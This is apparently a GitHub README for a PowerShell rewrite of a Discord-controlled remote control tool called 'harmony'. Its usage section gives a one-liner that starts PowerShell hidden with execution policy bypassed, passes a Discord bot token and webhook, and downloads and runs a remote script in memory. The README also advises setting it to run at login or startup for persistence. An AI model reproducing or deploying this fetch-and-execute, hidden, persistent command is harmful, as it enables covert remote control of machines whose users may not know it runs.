 # Currently all functions seem to work with 1 computer connected. Multiple is currently untested.

A PowerShell rewrite of the original Python code, designed to run directly in memory for greater efficiency. The PowerShell script is approximately 4 KB, significantly smaller than the ~20 MB executable generated by Python Nuitka*. The PowerShell version is also easier to update.

*While the Python code itself is around 3.5 KB, this doesn’t account for the necessary packages, nor does it consider that Python is often not pre-installed on Windows. Nuitka would need to be used to compile the code into an executable for universal compatibility across all supported Windows systems.

### **Usage Instructions:**

To execute the script, run the following command (preferably with persistence for automatic execution, such as a batch file or similar method at login or startup) on the remote computer you own or have permission to use, ensuring you replace the placeholders with your own Discord Bot Token, Server ID, and Webhook URL:

```powershell
cmd /c start /min "" powershell -W Hidden -EP Bypass -C "$TOKEN='<YOUR_BOT_TOKEN>';$serverID='<YOUR_SERVER_ID>';$whURL='<YOUR_WEBHOOK_URL>';IEX(IWR 'https://raw.githubusercontent.com/olivia1246/harmony/refs/heads/powershell/harmony.ps1' -UseBasicParsing);exit"
```
